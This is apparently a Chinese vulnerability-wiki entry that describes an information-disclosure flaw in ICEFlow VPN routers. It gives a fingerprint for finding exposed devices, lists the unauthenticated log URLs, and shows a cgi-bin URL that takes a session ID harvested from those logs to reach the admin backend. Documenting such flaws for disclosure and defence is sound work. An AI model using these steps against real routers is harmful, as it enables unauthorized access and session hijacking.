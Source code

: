 # ICEFlow VPN log 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

<a-checkbox checked>ICEFlow VPN</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="ICEFLOW VPN Router"</a-checkbox></br>

## 漏洞复现

可访问的日志 Url

```plain
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133204051.png)



根据日志信息获得session后，可利用实时登录系统管理后台：

```plain
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

